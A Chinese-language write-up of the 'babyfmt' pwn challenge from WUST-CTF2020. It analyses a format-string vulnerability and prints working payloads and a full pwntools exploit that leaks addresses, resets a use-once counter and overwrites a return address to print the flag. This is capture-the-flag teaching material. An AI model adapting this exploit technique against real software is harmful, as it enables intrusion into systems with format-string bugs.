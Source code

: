 ## babyfmt

- 题目描述：

  > Author: ru7n

- 题目附件：[babyfmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/babyfmt/babyfmt)

- 考察点：格式化字符串

- 难度：困难

- 初始分值：1000

- 最终分值：1000

- 完成人数：2

本次比赛中最好玩儿的一道pwn题~

### 程序分析

先看下程序的流程吧

```shell
% ./babyfmt 
dididada.....
tell me the time:12 13 14
ok! time is 12:13:14
1. leak
2. fmt_attack
3. get_flag
4. exit
>>
```

先是有个didadida要求输入时间，不知道有什么用，下一个。

然后就是菜单了：

* 选2可以完成一下格式化字符串攻击
* 选1可以泄漏任意地址的**一个字节**...哼太抠门了！
* 选3会要求你输入一个字符串然后与`secret`进行比对，如果对了就打印flag。。。。嘛？

显然没那么简单

```c
  if ( !strncmp(secret, &s2, 0x40uLL) ){
    close(1);
    fd = open("/flag", 0);
    read(fd, &s2, 0x50uLL);
    printf(&s2, &s2);
    exit(0);
  }
```

出题人把`stdout`关掉了，所以`printf`啥都打印不出来。

> `secret`是程序开始时读的一个0x40长的随机数据

除此以外还有一处限制，`leak`和`fmt_attack`只能利用一次：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp){
  // ...
  fmt_flag = 0;
  leak_flag = 0;
  //...
      if ( v3 != 2 )
          break;
        fmt_attack(&fmt_flag);
      }
      if ( v3 > 2 )
        break;
      if ( v3 == 1 )
        leak(&leak_flag);
   //...
}

unsigned __int64 __fastcall fmt_attack(_DWORD *a1){
  char format; // [rsp+10h] [rbp-40h]
  unsigned __int64 v3; // [rsp+48h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  memset(&format, 0, 0x30uLL);
  if ( *a1 > 0 )
  {
    puts("No way!");
    exit(1);
  }
  *a1 = 1;
  read_n(&format, 40);
  printf(&format, 40LL);
  return __readfsqword(0x28u) ^ v3;
}
```

用完会把相应的变量置1。

此外，这道题保护全开：

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

太有意思啦~

### 解题思路

保护全开所以没法改GOT表，还需要泄漏地址绕过地址随机化保护。

leak那个函数跟开玩笑似的（哼，就不用它）。

所以攻击思路就是利用好**格式化字符串漏洞**：

1. 先泄漏程序基址和栈地址
2. 然后再修改程序返回地址，跳过`close(1)`，直接打印flag

```nasm
0x00000f48      85c0           test eax, eax
0x00000f4a      7554           jne 0xfa0
0x00000f4c      bf01000000     mov edi, 1
0x00000f51      e832faffff     call sym.imp.close

0x00000f56      be00000000     mov esi, 0
0x00000f5b      488d3d170200.  lea rdi, str.flag           ; 0x1179 ; "/flag"
0x00000f62      b800000000     mov eax, 0
0x00000f67      e844faffff     call sym.imp.open
0x00000f6c      89459c         mov dword [rbp - 0x64], eax
0x00000f6f      488d4da0       lea rcx, [rbp - 0x60]
```

> 直接跳到0x00000f56这里，绕过close(1)

问题在于格式化字符串漏洞只能用一次，而完成上述攻击至少需要利用**两次**。

这也不难，因为限制次数的变量也在**栈中**，所以只要在泄漏地址的同时，把限制次数的变量清零即可。

payload1:

```python
sl('%7$hhn%17$p.%16$p')
```

> 清空变量、泄漏程序基址、泄漏栈地址。

payload2:

```python
payload = '%%%dc'%(flag&0xffff)+'%10$hn'
payload = payload.ljust(16,'A')
payload+= p64(stack)
sl(payload)
```

> 覆盖返回地址为打印flag部分代码地址

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './baby'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file,env={'LD_PRELOAD':remote_libc})
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
sla('tell me the time:','1 1 1')
sla('>>','2')
sl('%7$hhn%17$p.%16$p')
base = eval(ru('.'))-4140
stack = eval(ru('\n'))-40
info_addr('stack',stack)
flag = base+0xF56
info_addr('flag',flag&0xffff)
sla('>>','2')
# debug()
payload = '%%%dc'%(flag&0xffff)+'%10$hn'
payload = payload.ljust(16,'A')
payload+= p64(stack)
sl(payload)

p.interactive()
```

